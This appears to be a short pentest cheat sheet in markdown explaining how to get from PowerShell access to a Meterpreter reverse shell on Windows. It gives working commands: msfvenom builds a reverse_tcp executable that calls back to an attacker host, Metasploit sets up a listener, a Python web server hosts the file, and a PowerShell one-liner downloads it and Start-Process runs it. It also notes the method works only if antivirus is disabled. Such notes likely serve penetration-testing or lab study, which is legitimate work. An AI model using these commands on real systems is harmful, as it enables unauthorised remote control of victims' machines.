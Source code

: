 ## Powershell to Meterpreter Shell
- only if AV is disabled

- **Msfvenom**
  -  `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.4 LPORT=5555 -f exe > sh.exe`
  -  chmod +x
  -  set up metasploit listener
  -  msfconsole
  -  search exploit/multi/handler
  -  use 6
  -  set payload windows/meterpreter/reverse_tcp
  -  set lport (match what is in payload)
  -  set lhost
  -  run
  -  host webserver where file located
    - `python -m SimpleHTTPServer 80`   

- **Powershell**
  - from current powershell
  - `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.0.0.10:80/shell-name.exe', 'shell-name.exe')"`
    - Example:
      - `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.0.0.10:80/shell.exe', 'shell.exe')"`
  - dir to make sure in there
  - `Start-Process "shell-name.exe"`
  - if not working CD to C:\Windows\Temp
